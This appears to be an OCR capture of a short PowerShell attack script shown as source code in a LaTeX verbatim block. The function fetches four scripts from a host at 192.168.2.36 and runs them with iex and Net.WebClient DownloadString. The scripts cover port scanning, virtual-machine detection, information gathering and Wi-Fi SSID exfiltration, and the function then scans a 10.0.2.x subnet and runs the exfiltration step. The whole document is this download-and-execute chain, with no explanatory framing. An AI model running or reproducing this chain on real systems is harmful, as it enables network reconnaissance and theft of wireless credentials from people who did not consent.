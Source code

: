 \documentclass{article}%
\begin{document}
\begin{verbatim}
function Invoke-SuperScript{

	iex (new-Object net.webclient).DownloadString
	("http://192.168.2.36:8000/Invoke-PortScan.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Check-VM.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Get-Information.ps1");

	iex (new-Object Net.WebClient).DownloadString
	("http://192.168.2.36:8000/Invoke-SSIDExfil.ps1");

	Invoke-PortScan -StartAddress 10.0.2.1 
	    -EndAddress 10.0.2.254 -ResolveHost -ScanPort;

	Invoke-PortScan -StartAddress 10.0.2.15 
	    -EndAddress 10.0.2.15 -ResolveHost -ScanPort;

	Check-VM;

	Get-Information;

	Invoke-SSIDExfil;
}
\end{verbatim}
\end{document}
